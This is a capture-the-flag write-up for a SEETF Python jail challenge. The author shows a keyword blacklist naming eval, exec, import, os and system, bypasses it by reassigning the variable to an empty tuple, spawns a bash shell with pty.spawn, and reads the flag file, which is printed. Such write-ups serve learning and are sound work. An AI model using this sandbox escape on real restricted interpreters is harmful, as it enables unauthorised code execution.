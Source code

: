 # "as" "df"
## Solution

Firstly I tried finding all the global variables, and there is an interesting variable named `blacklist` 

```python
(base) [hacker@hackerbook ~]$ nc fun.chall.seetf.sg 50002
Hello! Welcome to my amazing Python interpreter!
You can run anything you want, but take not, there's a few blacklists!
Flag is in the root directory, have fun!
Enter command: dir()
Enter command: print(dir())
['__annotations__', '__builtins__', '__cached__', '__doc__', '__file__', '__loader__', '__name__', '__package__', '__spec__', 'blacklist', 'sys', 'user_input']
Enter command: print(blacklist) 
('eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write', ';', '+', 'ord', 'chr', 'base', 'flag', 'replace', ' ', 'decode', 'join')
Enter command: 
```

I thought, maybe if I cleared the variable, I could remove the blacklist entirely. This worked, as I could use the `import` keyword. I imported a library to spawn a bash shell and allow for Remote Code Execution.

```bash
(base) [hacker@hackerbook ~]$ nc fun.chall.seetf.sg 50002
Hello! Welcome to my amazing Python interpreter!
You can run anything you want, but take not, there's a few blacklists!
Flag is in the root directory, have fun!
Enter command: blacklist=()
Enter command: import pty; pty.spawn("/bin/bash")
random@app-8575d5795b-mqzr9:~$
```

I then used this bash shell to find the flag from the root directory, and display its contents using `cat`

```bash
random@app-8575d5795b-mqzr9:~$ cd /
cd /
random@app-8575d5795b-mqzr9:/$ ls
ls
bin   dev  flag  lib    media  opt   root  sbin  sys  usr
boot  etc  home  lib64  mnt    proc  run   srv   tmp  var
random@app-8575d5795b-mqzr9:/$ cat flag
cat flag
SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}
random@app-8575d5795b-mqzr9:/$ 
```

## Flag
`SEE{every_ctf_must_have_a_python_jail_challenge_836a4218fb09b4a0ab0412e64de74315}`